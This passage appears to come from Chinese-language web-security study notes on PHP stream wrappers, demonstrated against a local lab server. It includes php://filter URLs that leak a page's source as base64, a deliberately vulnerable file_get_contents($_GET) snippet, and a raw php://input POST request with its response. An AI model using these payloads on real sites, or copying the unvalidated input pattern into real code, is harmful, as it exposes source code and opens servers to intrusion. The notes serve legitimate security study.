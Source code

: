 `http://localhost:32989/?a=php://filter/read=convert.base64-encode/resource=index.php`

`http://localhost:32989/?a=php://filter/convert.base64-encode/resource=index.php`

同样可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量`$filename`会被当作正常变量执行,而单引号包含的变量则会被当作字符串执行

```php
<?php  
$aa=1;
echo "$aa";
echo "<br>";
echo '$aa';
?>
```

```
1
$aa
```

#### php://input

`php://input`是个可以访问请求的原始数据的只读流,可以读取到post没有解析的原始数据,将post请求中的数据作为PHP代码执行,因为它不依赖于特定的`php.ini`指令

>`enctype=”multipart/form-data”`的时候`php://input`是无效的

```php
<?php  
echo file_get_contents($_GET["a"]);  
?>
```

```
POST /?a=php://input HTTP/1.1
Host: localhost:32989
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

asdf
```

```
HTTP/1.1 200 OK
Date: Tue, 19 Jan 2021 13:53:35 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.3.24
Content-Length: 4
Connection: close
Content-Type: text/html; charset=UTF-8

asdf
```

---